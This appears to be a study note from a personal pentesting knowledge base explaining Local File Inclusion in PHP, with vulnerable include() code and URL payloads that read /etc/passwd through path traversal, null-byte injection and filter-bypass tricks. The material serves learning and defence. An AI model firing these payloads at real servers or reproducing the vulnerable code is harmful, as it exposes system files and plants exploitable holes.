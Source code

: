 ```yaml
---
title: Local File Inclusion
---
```

_Local File Inclusion_ attacks against web applications are often possible due to a developers' lack of security awareness. 

With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications.

LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps. LFI exploits follow the same concepts as [[cybersecurity/knowledge/pentesting/path-traversal]].  

## Example

Suppose the web application provides two languages, and the user can select between the EN and AR

```php
<?php
	include($_GET["lang"]);
?>
```

The PHP code above uses a **GET request** via the URL parameter `lang` to **include** the file of the page. 

```
http://webapp.com/index.php?lang=EN.php
http://webapp.com/index.php?lang=AR.php
```

Theoretically, we can access and display any readable file on the server from the code above if there isn't any input validation: 

```
http://webapp.com/index.php?lang=/etc/passwd
```

## Example #2

The developer might decided to specify the directory inside the function: 
```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

In the above code, the developer decided to use the include function to call PHP pages in the languages directory only via lang parameters.  

If there is no input validation, the attacker can manipulate the URL by replacing the lang input with other OS-sensitive files such as /etc/passwd.

The `include` function allows us to include any called files into the current page. The following will be the exploit:

```
http://webapp.com/index.php?lang=../../../../etc/passwd
```

## Example #3
In the first two cases, we _checked_ the code for the web app, and then we knew how to exploit it. In case of [[black-box-testing]], we need to take a look of the error messages in order to understand how the data is passed and processed into the web app, eg: 

```
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/**THM-4**/index.php on line 12
```


The error message discloses what the include function looks like:  `include(languages/THM.php);`

We can tell the function that includes files in the languages directory is adding `.php` at the end of the entry. Thus the valid input will be something like `index.php?lang=EN`, where the file EN is located inside the given `languages/` and named  `EN.php`. 

From the error message we also know the full web application directory which is `/var/www/html/THM-4/`

To exploit this, we need to use the [[cybersecurity/knowledge/pentesting/path-traversal|dot-dot-slash trick]] to get out the current folder: 
```
http://webapp.com/index.php?lang=../../../../etc/passwd
```

We already knew the `/var/www/html/THM-4` path has four levels, but we still receive the error:  

```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

The error tells us that the developer specifies the file type to pass to the `include` function (namely it has to end with `.php`). To go around that, we need to use [[cybersecurity/knowledge/pentesting/null-byte]] injection: 

```
http://webapp.com/index.php?file=../../../../etc/passwd%00
```

## Example #4 - filtered keywords
Let's say the developer decided to filter keywords to avoid disclosing sensitive information and the `/etc/passwd` file has been filtered. 

There are two possible methods to bypass the filter. 
- by using the [[cybersecurity/knowledge/pentesting/null-byte|null byte %00]] 
- the current directory [[cybersecurity/knowledge/pentesting/path-traversal]] trick at the end of the filtered keyword (`/.`)

The exploit will be similar to ```
```
http://webapp.thm/index.php?lang=/etc/passwd/.
```

If we try `/etc/passwd/..`, it results to be  `/etc/` and that's because we moved one to the root. If we try `/etc/passwd/.`, the result will be `/etc/passwd` since dot refers to the current directory.


## Example #5 - input validation
---
Let's say the developer starts to use input validation by filtering some keywords out of it.

```
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

By using such URL, we got the following error: 

```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```

From the error message we know that the web application replaces the `../` with the empty string (it defaults the fn call to `include(languages/etc/passwd`). 

There are a couple of techniques we can use to bypass this.

We can send the following [[cybersecurity/knowledge/glossary/payload]] to bypass it: `....//....//....//....//....//etc/passwd`, as the PHP filter only matches and replaces **the first subset** string it finds (`../`) and doesn't do another pass, turning
```
..//....//....//....//etc/passwd
```
into
```
../../../../etc/passwd
```

## Example 6 - forced directory  

If the developer forces the `include` fn to read from a defined directory, namely, if the web application asks to supply input that has to include a directory such as

```
http://webapp.thm/index.php?lang=languages/EN.php
```

then, to exploit this, we need to include the directory in the [[cybersecurity/knowledge/glossary/payload]] like so: 
```
?lang=languages/../../../../../etc/passwd
```